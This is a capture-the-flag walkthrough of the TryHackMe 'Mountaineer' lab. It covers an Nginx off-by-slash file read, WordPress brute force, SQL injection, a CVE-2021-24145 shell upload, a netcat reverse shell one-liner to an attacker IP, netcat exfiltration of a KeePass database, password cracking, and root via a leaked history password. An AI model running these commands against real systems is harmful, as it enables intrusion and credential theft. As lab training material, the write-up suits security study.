

# TryHackMe-Mountaineer

**Scope:**

- LFI (Local File Inclusion)
- KeePass
- Nginx off-by-slash
- WordPress

Keywords:

- WordPress Enumeration
- WordPress Plugin
- WordPress Vulnerability
- LFI (Local File Inclusion)
- Nginx off-by-slash
- Login Credential Brute Force
- SQL Injection
- Remode Code Execution
- Creating Wordlist
- Netcat File Transfer
- Password Cracking
- keepass2john
- kpcli
- Keepass Access
- SSH Connection

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `wfuzz -u http://mountaineer.thm/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --hc 404,500,501,502,503 -c -t 50 -L`
- `wpscan --url http://mountaineer.thm/wordpress --enumerate vt,u --connect-timeout 10 --detection-mode aggressive --plugins-detection mixed --random-user-agent`
- `wpscan --url http://mountaineer.thm/wordpress --enumerate vp --connect-timeout 10 --detection-mode aggressive --plugins-detection mixed --random-user-agent`
- `wfuzz -u http://mountaineer.thm/wordpress/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt --hc 404,500,501,502,503 -c -t 100 -L`
- `curl -iLX GET -D response.txt http://mountaineer.thm/wordpress/images../etc/passwd`
- `curl -iLX GET -D response.txt http://mountaineer.thm/wordpress/images../etc/nginx/sites-available/default`
- `ffuf --request http_request.req --request-proto http -w wordpressuser.txt:USERFUZZ -w passwords.txt:PASSFUZZ -fr 'Login failed.' -mc 200,301,302,403 -t 30 -ic`
- `sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -D wordpress -T wp_users -C user_pass --where "user_login='admin'" --dump --batch`
- `python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p '8O!Uv68eppgxFi4^'`
- `msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=12244 R`
- `nc -l -p 11342 > Backup.kdbx`
- `cupp -i`
- `keepass2john Backup.kdbx > backupmount_hash`
- `sudo john backupmount_hash --wordlist=mount.txt`
- `kpcli --kdb Backup.kdbx`
- `ssh kangchenjunga@mountaineer.thm -p 22`

**System Commands:**

- `nc -w 3 10.2.37.37 11342 < /home/lhotse/Backup.kdbx`
- `find . -type f 2>/dev/null`
- `python3 -c 'import pty;pty.spawn("/bin/bash");’`
- `export TERM=xterm`
- `show -f 3`
- `cat .bash_history`
- `su - root`

### Laboratory Environment

[Mountaineer](https://tryhackme.com/r/room/mountaineerlinux)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:09:80:28:d4:ec:f1:f9:bc:a3:f7:bb:cc:0f:68:90 (ECDSA)
|_  256 82:5a:2d:0c:77:83:7c:ea:ae:49:37:db:03:5a:03:08 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
```

> **HTTP Port Check**
> 

`curl -iLX GET http://mountaineer.thm`

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 29 Oct 2024 08:17:10 GMT
Content-Type: text/html
Content-Length: 612
Last-Modified: Sat, 16 Mar 2024 18:03:14 GMT
Connection: keep-alive
ETag: "65f5dee2-264"
Accept-Ranges: bytes

<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

> **Directory Scan & Endpoint Control Phase**
> 

`wfuzz -u http://mountaineer.thm/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --hc 404,500,501,502,503 -c -t 50 -L`

```bash
000000573:   200        660 L    2443 W     61843 Ch    "wordpress"
```

`curl -iLX GET -D wordpressresponse.txt http://mountaineer.thm/wordpress`

```bash
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 29 Oct 2024 08:22:28 GMT
Content-Type: text/html
Content-Length: 178
Location: http://mountaineer.thm/wordpress/
Connection: keep-alive

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 29 Oct 2024 08:22:29 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Link: <http://mountaineer.thm/wordpress/index.php?rest_route=/>; rel="https://api.w.org/"

[REDACTED] - MORE
```

> **WordPress Enumeration Phase**
> 

`wpscan --url http://mountaineer.thm/wordpress --enumerate vt,u --connect-timeout 10 --detection-mode aggressive --plugins-detection mixed --random-user-agent`

```bash
[+] XML-RPC seems to be enabled: http://mountaineer.thm/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://mountaineer.thm/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://mountaineer.thm/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
 | Found By: Atom Generator (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/?feed=atom, <generator uri="https://wordpress.org/" version="6.4.3">WordPress</generator>
 | Confirmed By: Style Etag (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-admin/load-styles.php, Match: '6.4.3'

[i] The main theme could not be detected.

[+] Enumerating Vulnerable Themes (via Aggressive Methods)
 Checking Known Locations - Time: 00:00:48 <==================================================================> (652 / 652) 100.00% Time: 00:00:48

[i] No themes Found.

[+] Enumerating Users (via Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:04 <====================================================================> (10 / 10) 100.00% Time: 00:00:04

[i] User(s) Identified:

[+] everest
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] montblanc
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] chooyu
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] k2
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

`wpscan --url http://mountaineer.thm/wordpress --enumerate vp --connect-timeout 10 --detection-mode aggressive --plugins-detection mixed --random-user-agent`

```bash
[REDACTED] - MORE

[+] modern-events-calendar-lite
 | Location: http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/
 | Last Updated: 2022-05-10T21:06:00.000Z
 | [!] The version is out of date, the latest version is 6.5.6
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.16.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/readme.txt
 | Confirmed By: Change Log (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/changelog.txt, Match: '5.16.2'
 
 [REDACTED] - MORE
```

`nano wordpressuser.txt`

```bash
everest
montblanc
admin
chooyu
k2
```

`wfuzz -u http://mountaineer.thm/wordpress/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt --hc 404,500,501,502,503 -c -t 100 -L`

```bash
000000003:   403        7 L      10 W       162 Ch      "images"                                                                         
000000018:   403        7 L      10 W       162 Ch      "wp-includes"                                                                    
000000020:   200        0 L      0 W        0 Ch        "wp-content"                                                                     
000000013:   200        101 L    366 W      6486 Ch     "wp-admin"                                                                       
000000400:   200        660 L    2443 W     61843 Ch    "."
```

> **LFI (Local File Inclusion) & Nginx off-by-slash Phase**
> 

**For more information:**

[Nginx | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx#alias-lfi-misconfiguration)

[Common Nginx misconfigurations - Blog Detectify](https://blog.detectify.com/industry-insights/common-nginx-misconfigurations-that-leave-your-web-server-ope-to-attack/)

`curl -iLX GET -D response.txt http://mountaineer.thm/wordpress/images../etc/passwd`

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 29 Oct 2024 08:38:44 GMT
Content-Type: application/octet-stream
Content-Length: 2499
Last-Modified: Sat, 16 Mar 2024 22:31:14 GMT
Connection: keep-alive
ETag: "65f61db2-9c3"
Accept-Ranges: bytes

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
vagrant:x:1000:1000:vagrant:/home/vagrant:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
vboxadd:x:998:1::/var/run/vboxadd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
dovecot:x:115:121:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:116:122:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
manaslu:x:1002:1002::/home/manaslu:/bin/bash
annapurna:x:1003:1003::/home/annapurna:/bin/bash
makalu:x:1004:1004::/home/makalu:/bin/bash
kangchenjunga:x:1006:1006::/home/kangchenjunga:/bin/bash
postfix:x:117:123::/var/spool/postfix:/usr/sbin/nologin
everest:x:1010:1010::/home/everest:/bin/bash
lhotse:x:1011:1011::/home/lhotse:/bin/bash
nanga:x:1012:1012::/home/nanga:/bin/bash
k2:x:1013:1013::/home/k2:/bin/bash
```

`curl -iLX GET -D response.txt http://mountaineer.thm/wordpress/images../etc/nginx/sites-available/default`

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 29 Oct 2024 08:39:43 GMT
Content-Type: application/octet-stream
Content-Length: 2699
Last-Modified: Sat, 30 Mar 2024 06:35:17 GMT
Connection: keep-alive
ETag: "6607b2a5-a8b"
Accept-Ranges: bytes

server {
        listen 80 default_server;
        listen [::]:80 default_server;
        server_name mountaineer.thm adminroundcubemail.mountaineer.thm;
        client_max_body_size 20M;
        # SSL configuration
        #
        # listen 443 ssl default_server;
        # listen [::]:443 ssl default_server;
        #
        # Note: You should disable gzip for SSL traffic.
        # See: https://bugs.debian.org/773332
        #
        # Read up on ssl_ciphers to ensure a secure configuration.
        # See: https://bugs.debian.org/765782
        #
        # Self signed certs generated by the ssl-cert package
        # Don't use them in a production server!
        #
        # include snippets/snakeoil.conf;

        root /var/www/html;

        # Add index.php to the list if you are using PHP
        index index.php index.html index.htm index.nginx-debian.html;

        server_name _;

        location / {
                # First attempt to serve request as file, then
                # as directory, then fall back to displaying a 404.
                # try_files $uri $uri/ =404;
                try_files $uri $uri/ /index.php?$args;
        }

        # pass PHP scripts to FastCGI server
        #
        location ~ \.php$ {
               include snippets/fastcgi-php.conf;
        #
        #       # With php-fpm (or other unix sockets):
               fastcgi_pass unix:/run/php/php8.1-fpm.sock;
        #       # With php-cgi (or other tcp sockets):
        #       fastcgi_pass 127.0.0.1:9000;
        }

        location /wordpress/images {
            alias /media/;
        }

        # deny access to .htaccess files, if Apache's document root
        # concurs with nginx's one
        #
        #location ~ /\.ht {
        #       deny all;
        #}
}

# Virtual Host configuration for example.com
#
# You can move that to a different file under sites-available/ and symlink that
# to sites-enabled/ to enable it.
#
#server {
#       listen 80;
#       listen [::]:80;
#
#       server_name example.com;
#
#       root /var/www/example.com;
#       index index.html;
#
#       location / {
#               try_files $uri $uri/ =404;
#       }
#}
```

`nano /etc/hosts`

```bash
10.10.99.220    mountaineer.thm adminroundcubemail.mountaineer.thm
```

> **Panel Check Phase**
> 

`curl -iLX GET http://adminroundcubemail.mountaineer.thm`

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 29 Oct 2024 08:44:33 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: roundcube_sessid=st29ljcklc03ppikfocc5ma1t2; path=/; HttpOnly
Expires: Tue, 29 Oct 2024 08:44:33 GMT
Last-Modified: Tue, 29 Oct 2024 08:44:33 GMT
Cache-Control: private, no-cache, no-store, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: sameorigin
Content-Language: en

[REDACTED] - MORE

<div id="layout-content" class="selected no-navbar" role="main">
        
        <form id="login-form" name="login-form" method="post" class="propform" action="./?_task=login">
<input type="hidden" name="_token" value="Dm9ZcfCF4EasMyvVi4tI82B0AiWp1Fel">
        <input type="hidden" name="_task" value="login"><input type="hidden" name="_action" value="login"><input type="hidden" name="_timezone"
	        id="rcmlogintz" value="_default_"><input type="hidden" name="_url" id="rcmloginurl"><table><tbody><tr><td class="title">
	        <label for="rcmloginuser">Username</label></td><td class="input"><input name="_user" id="rcmloginuser" required size="40" class="form-control" autocapitalize="off" autocomplete="off" type="text">
	        </td></tr><tr><td class="title"><label for="rcmloginpwd">Password</label></td><td class="input"><input name="_pass" id="rcmloginpwd" required size="40" class="form-control" autocapitalize="off" autocomplete="off" type="password"></td>
	        </tr></tbody></table><p class="formbuttons"><button type="submit" id="rcmloginsubmit" class="button mainaction submit">Login</button></p>
                <div id="login-footer" role="contentinfo">
                        Roundcube Webmail
                        
[REDACTED] - MORE
```




**REQUEST PAYLOAD:**

```bash
_token=7LoSvpC3njsjummOZoQBaJFaIqSlkc1e&_task=login&_action=login&_timezone=America%2FNew_York&_url=&_user=admin&_pass=admin
```

> **Login Credential Brute Force Phase**
> 

`nano passwords.txt`

```bash
everest
montblanc
admin
chooyu
k2
admin
administrator
devs
```


`ffuf --request http_request.req --request-proto http -w wordpressuser.txt:USERFUZZ -w passwords.txt:PASSFUZZ -fr 'Login failed.' -mc 200,301,302,403 -t 30 -ic`

```bash
[REDACTED] - NOTHING
```

> **Panel Access Phase**
> 

`curl -iLX $'POST' --data-binary $'token=4K9FRByTHjqGprQ4bWF6DG0y6AYRGAl4&_task=login&_action=login&_timezone=America%2FNew_York&_url=_task%3Dlogin&_user=k2&_pass=k2' $'http://adminroundcubemail.mountaineer.thm/?_task=login'`

```bash
HTTP/1.1 401 Unauthorized
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 29 Oct 2024 09:11:51 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: roundcube_sessid=dl18cs04ce2g08vcask5ffft8l; path=/; HttpOnly
Expires: Tue, 29 Oct 2024 09:11:51 GMT
Last-Modified: Tue, 29 Oct 2024 09:11:51 GMT
Cache-Control: private, no-cache, no-store, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: sameorigin
Set-Cookie: roundcube_sessauth=-del-; expires=Tue, 29-Oct-2024 09:10:51 GMT; Max-Age=0; path=/; HttpOnly
Content-Language: en
```


**CREDENTIAL:**

```bash
k2:k2
```


> **Password Change Phase**
> 


**NEW CREDENTIAL:**

```bash
8O!Uv68eppgxFi4^
```


**OLD CREDENTIAL:**

```bash
th3_tall3st_password_in_th3_world
```

> **SQL Injection Phase**
> 

`sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -D wordpress -T wp_users -C user_pass --where "user_login='admin'" --dump --batch`

```bash
[REDACTED] - EXAMPLE
```

> **Remode Code Execution & Payload Phase**
> 

**For more information:**

[NVD - CVE-2021-24145](https://nvd.nist.gov/vuln/detail/CVE-2021-24145)

`wget https://raw.githubusercontent.com/Hacker5preme/Exploits/refs/heads/main/Wordpress/CVE-2021-24145/exploit.py`

```bash
2024-10-29 05:25:50 (974 KB/s) - 'exploit.py' saved [22058/22058]
```

**For script source:**

[https://github.com/Hacker5preme/Exploits/blob/main/Wordpress/CVE-2021-24145/exploit.py](https://github.com/Hacker5preme/Exploits/blob/main/Wordpress/CVE-2021-24145/exploit.py)

`python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p '8O!Uv68eppgxFi4^'`

```bash
[+] Authentication successfull !

[+] Shell Uploaded to: http://mountaineer.thm:80/wordpress//wp-content/uploads/shell.php
```


> **Reverse Shell Phase**
> 

`msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=12244 R`

```bash
mkfifo /tmp/glzqy; nc 10.2.37.37 12244 0</tmp/glzqy | /bin/sh >/tmp/glzqy 2>&1; rm /tmp/glzqy
```

`nc -nlvp 12244`

```bash
listening on [any] 12244 ...
```


```bash
listening on [any] 12244 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.99.220] 48728
python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@mountaineer:~/html/wordpress/wp-content/uploads$ export TERM=xterm
export TERM=xterm
www-data@mountaineer:~/html/wordpress/wp-content/uploads$ 
```

> **Internal File Enumeration & File Transfer Phase**
> 

```bash
www-data@mountaineer:~/html/wordpress/wp-content/uploads$ cd ~
cd ~

www-data@mountaineer:~$ uname -a
Linux mountaineer 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux

www-data@mountaineer:~$ dpkg --version
Debian 'dpkg' package management program version 1.21.1 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

www-data@mountaineer:~$ which netcat
/usr/bin/netcat

www-data@mountaineer:~$ which python3
/usr/bin/python3

www-data@mountaineer:~$ find . -type f 2>/dev/null

[REDACTED] - MORE

./kangchenjunga/.bash_history
./kangchenjunga/local.txt
./kangchenjunga/mynotes.txt
./nanga/ToDo.txt
./lhotse/Backup.kdbx

[REDACTED] - MORE

www-data@mountaineer:~$ ls -lsa /home/lhotse/Backup.kdbx
4 -rwxrwxrwx 1 lhotse lhotse 2302 Apr  6  2024 /home/lhotse/Backup.kdbx

www-data@mountaineer:~$ 
```

`nc -l -p 11342 > Backup.kdbx`

```bash
www-data@mountaineer:~$ nc -w 3 10.2.37.37 11342 < /home/lhotse/Backup.kdbx
www-data@mountaineer:~$ 
```

`file Backup.kdbx`

```bash
Backup.kdbx: Keepass password database 2.x KDBX
```

> **Creating Wordlist Phase**
> 

`cupp -i`

```bash
[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Mount
> Surname: Lhotse
> Nickname: MrSecurity
> Birthdate (DDMMYYYY): 18051956

> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 

> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 

> Pet's name: Lhotsy
> Company name: BestMountainsInc

> Do you want to add some key words about the victim? Y/[N]: 
> Do you want to add special chars at the end of words? Y/[N]: 
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]: 

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to mount.txt, counting 1926 words.
[+] Now load your pistolero with mount.txt and shoot! Good luck!

```

> **Password Cracking Phase**
> 

`keepass2john Backup.kdbx > backupmount_hash`

`sudo john backupmount_hash --wordlist=mount.txt`

```bash
Lhotse56185      (Backup)
```

> **Keepass Access & Gathering Credential Phase**
> 

`kpcli --kdb Backup.kdbx`

```bash
Provide the master password: *************************                                                                                            

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> dir
=== Groups ===
wordpress-backup/
kpcli:/> cd wordpress-backup/
kpcli:/wordpress-backup> dir
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. European Mountain                                                      
1. Sample Entry                                               keepass.info
2. Sample Entry #2                          keepass.info/help/kb/testform.
3. The "Security-Mindedness" mountain                                     

kpcli:/wordpress-backup> show -f 3

Title: The "Security-Mindedness" mountain
Uname: kangchenjunga
 Pass: J9f4z7tQlqsPhbf2nlaekD5vzn4yBfpdwUdawmtV
  URL: 
Notes: 

kpcli:/wordpress-backup> 
```

> **SSH Connection Phase**
> 

`ssh kangchenjunga@mountaineer.thm -p 22`

```bash
kangchenjunga@mountaineer.thm's password: J9f4z7tQlqsPhbf2nlaekD5vzn4yBfpdwUdawmtV

Last login: Mon Mar 18 18:03:41 2024 from 192.168.33.1
kangchenjunga@mountaineer:~$ whoami
kangchenjunga
kangchenjunga@mountaineer:~$ id
uid=1006(kangchenjunga) gid=1006(kangchenjunga) groups=1006(kangchenjunga)
kangchenjunga@mountaineer:~$ pwd
/home/kangchenjunga
kangchenjunga@mountaineer:~$ ls
local.txt  mynotes.txt
kangchenjunga@mountaineer:~$ cat mynotes.txt
Those my notes:

1. Tell root stop using my account ! It's annoying !
2. Travel to Mars sometime, I heard there are great mountains there !
3. Make my password even harder to crack ! I don't want anyone to hack me !

kangchenjunga@mountaineer:~$
```

> **Privilege Escalation Phase**
> 

```bash
kangchenjunga@mountaineer:~$ cat .bash_history

cat /etc/passwd
ps aux
suroot
th3_r00t_of_4LL_mount41NSSSSssssss
whoami
ls -la
cd /root
ls
mkdir test
cd test
touch file1.txt
mv file1.txt ../
cd ..

kangchenjunga@mountaineer:~$ su - root
Password: th3_r00t_of_4LL_mount41NSSSSssssss
root@mountaineer:~# whoami
root
root@mountaineer:~# id
uid=0(root) gid=0(root) groups=0(root)
root@mountaineer:~#
```

# Appendix

## LFI (Local File Inclusion)

<aside>
💡

LFI (Local File Inclusion) is a security vulnerability found in web applications that allows an attacker to access files on the server by exploiting insecure handling of file paths. This happens when a web application dynamically includes files using user-supplied input without proper sanitization.

</aside>

## KeePass

<aside>
💡

KeePass is a free, open-source password manager that helps users securely store and manage their passwords in an encrypted database. With KeePass, users can create a single, secure vault to store passwords, PINs, notes, and other sensitive information, all protected by a master password or key file. It is designed to enhance security by allowing users to generate and store complex passwords without needing to remember each one individually.

</aside>

## Nginx off-by-slash

<aside>
💡

The Nginx off-by-slash vulnerability (often called an "off-by-one" vulnerability) is a security flaw that can occur in some configurations of the Nginx web server. It allows attackers to bypass access restrictions by exploiting how Nginx interprets certain URL paths, particularly with the use of an extra slash (/) in the URL.

</aside>